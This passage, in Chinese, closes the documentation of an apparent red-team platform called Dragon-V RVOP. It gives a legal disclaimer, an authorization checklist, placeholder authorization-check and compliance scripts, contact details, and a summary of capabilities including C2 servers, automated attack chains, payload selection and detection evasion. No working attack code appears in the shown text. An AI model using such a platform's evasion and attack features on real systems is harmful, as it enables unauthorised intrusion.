        except Exception as e:
            logger.error(f"Custom operation error: {e}")
            return web.json_response({"error": str(e)}, status=500)
```

---

## ⚖️ 法律声明

### 重要声明

**⚠️ 严肃警告：本平台仅授权给具备合法授权的安全测试专业人员使用。**

### 授权范围

#### 授权使用场景
1. **企业内部安全测试**: 在获得组织明确授权的情况下，用于内部系统的安全评估
2. **渗透测试服务**: 作为专业渗透测试工具，在获得书面授权后使用
3. **安全研究**: 用于授权的安全漏洞研究和技术开发
4. **教育培训**: 在受控的教育和培训环境中使用
5. **防御测试**: 用于验证安全防御措施的有效性

#### 严禁使用场景
1. **未授权的系统测试**: 任何未经明确授权的系统测试
2. **非法攻击活动**: 任何违反法律法规的攻击行为
3. **公共设施攻击**: 攻击公共互联网基础设施或服务
4. **数据窃取**: 任何未授权的数据访问和窃取行为
5. **恶意软件分发**: 任何恶意软件的制作和传播

### 法律责任

#### 用户责任
1. **授权验证**: 用户必须确保获得所有相关方的书面授权
2. **合法使用**: 必须严格遵守相关法律法规
3. **风险承担**: 用户自行承担使用本平台的所有风险
4. **损害赔偿**: 因非法使用导致的任何损失由用户承担全部责任

#### 平台责任
1. **工具中立**: 本平台为中立安全工具，不承担用户使用方式的责任
2. **使用指导**: 提供必要的安全使用指导和最佳实践
3. **安全提醒**: 明确提醒用户注意合法使用和安全风险

### 最佳实践

#### 1. 使用前准备
```markdown
## 授权验证清单
- [ ] 获得目标系统所有者的书面授权
- [ ] 明确测试范围和时间限制
- [ ] 制定详细测试计划
- [ ] 准备应急响应方案
- [ ] 通知相关人员测试安排
```

#### 2. 安全操作规范
```python
# 在实际使用前添加安全检查
def perform_authorization_check():
    """执行授权检查"""
    if not is_authorized():
        logger.critical("未获得授权，拒绝执行测试")
        raise PermissionError("未获得授权进行安全测试")

    if not is_test_environment():
        logger.critical("不在测试环境中，拒绝执行测试")
        raise EnvironmentError("只能在授权的测试环境中运行")

    if not has_proper_licensing():
        logger.critical("没有适当的许可，拒绝执行测试")
        raise LicensingError("没有适当的许可证")

    logger.info("授权检查通过，可以开始测试")

# 启动前验证
perform_authorization_check()
```

#### 3. 合规性检查
```bash
# 定期检查合规性
#!/bin/bash
echo "=== RVOP 合规性检查 ==="

# 1. 检查授权文件
if [ ! -f "authorization_letter.pdf" ]; then
    echo "❌ 缺少授权文件"
    exit 1
fi

# 2. 检查测试环境
if [ "$TEST_ENVIRONMENT" != "authorized" ]; then
    echo "❌ 非授权测试环境"
    exit 1
fi

# 3. 检查使用记录
if [ ! -f "usage_log.txt" ]; then
    echo "❌ 缺少使用记录"
    exit 1
fi

# 4. 检查合规培训记录
if [ ! -f "training_certificate.pdf" ]; then
    echo "❌ 缺少合规培训记录"
    exit 1
fi

echo "✅ 合规性检查通过"
```

### 联系方式

#### 技术支持
- **技术邮箱**: support@dragon-v.com
- **GitHub**: https://github.com/dragon-v/rvop
- **文档**: https://docs.rvop.dragon-v.com

#### 法律咨询
- **法律邮箱**: legal@dragon-v.com
- **法律热线**: +86-XXX-XXXX-XXXX

### 版本信息

```
RVOP版本: 1.0.0
发布日期: 2024-01-15
最后更新: 2024-01-15
许可证: 专业授权许可
```

---

## 📊 总结

Dragon-V RVOP 是一个功能完整的红队作战平台，包含了从基础的C2服务器到高级的自动化利用框架的所有组件。通过这个平台，安全研究人员可以进行专业的红队测试、漏洞验证和安全研究。

### 核心优势
1. **模块化设计**: 各组件独立可扩展
2. **完整工具链**: 覆盖攻击全生命周期
3. **专业级功能**: 达到商业级安全工具标准
4. **易于部署**: 一键部署，快速上手
5. **可扩展性**: 支持自定义插件和模块

### 技术特色
- **异步架构**: 高并发处理能力
- **智能载荷**: 自动选择最佳攻击载荷
- **链式攻击**: 多步骤自动化攻击
- **规避技术**: 先进的绕过检测技术
- **完整监控**: 全面的日志和监控功能

### 使用建议
1. **充分测试**: 在使用前先在测试环境中充分测试
2. **仔细配置**: 根据实际需求仔细配置各项参数
3. **保持更新**: 定期更新平台和依赖库
4. **遵守法律**: 严格遵守相关法律法规和授权要求
5. **持续学习**: 不断学习新的安全技术和攻击方法

### 未来展望
- **AI集成**: 集成机器学习技术进行智能攻击
- **云原生**: 支持容器化部署和云平台集成
- **多语言**: 支持更多编程语言的载荷生成
- **图形化**: 开发更丰富的图形化界面
- **社区扩展**: 构建活跃的插件开发社区

---

**⚠️ 再次提醒：请仅在合法授权的环境中使用本平台，遵守相关法律法规，确保安全测试的合法性和正当性。**

---
*文档版本: 1.0.0*
*最后更新: 2024-01-15*
*维护团队: Dragon-V 安全团队*